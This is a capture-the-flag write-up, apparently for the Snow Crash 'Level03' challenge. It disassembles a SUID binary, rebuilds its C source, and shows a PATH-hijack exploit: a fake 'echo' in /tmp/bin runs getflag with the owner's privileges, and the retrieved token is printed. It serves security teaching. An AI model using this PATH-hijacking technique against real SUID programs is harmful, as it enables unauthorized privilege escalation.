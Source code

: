 # Level03

<!-- not here -->
<!-- ## HACKING THE ART OF EXPLOITATION
[the art of exploitation](https://repo.zenk-security.com/Magazine%20E-book/Hacking-%20The%20Art%20of%20Exploitation%20(2nd%20ed.%202008)%20-%20Erickson.pdf) -->

```bash
ls -la
# ouput: finally there is a binary file here, we gonna do some exploit 🤩
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
# run strings level03, you can use gdb or objdump
```
This file has a strange permissions the one that we don't see often is `s` SUID<br/>
SUID or Set Owner User ID is a permission bit flag that applies to executables.<br/>
SUID allows an alternate user to run an executable with the same permissions<br/>
as the owner of the file instead of the permissions of the alternate user.<br/>

Using objdump<br/>
```bash
# d, --disassemble Display assembler contents of executable sections
objdump -d level03 -M intel | grep -A 26 "main>:"
# Output:
080484a4 <main>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 e4 f0             	and    esp,0xfffffff0
 80484aa:	83 ec 20             	sub    esp,0x20
 80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
 80484b2:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
 80484bb:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 80484bf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484c3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484c7:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484cb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484cf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484d3:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
 80484db:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484df:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484e3:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484e7:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484eb:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484ef:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
 80484f7:	c7 04 24 e0 85 04 08 	mov    DWORD PTR [esp],0x80485e0
 80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
 8048503:	c9                   	leave
 8048504:	c3                   	ret
```

As you can see, you can translate this assembly code to c code source<br/>

## source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  // this string obtains with strings level03
  system("/usr/bin/env echo Exploit me");

```
the parts that are matter to us are the call to getegid, geteuid, setresgid, setresuid and system
the echo command runs without the full path, we can override this behavior by using our echo command<br/>
this is part `/usr/bin/env echo` is an instruction to set the PATH (as well as all the other NAME+VALUE pairs), and then run echo using the first directory in the PATH that contains the echo executable.<br/>

```bash
mkdir -p /tmp/bin
echo "getflag" > /tmp/bin/echo
chmod 777 /tmp/bin/echo
export PATH=/tmp/bin:$PATH
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```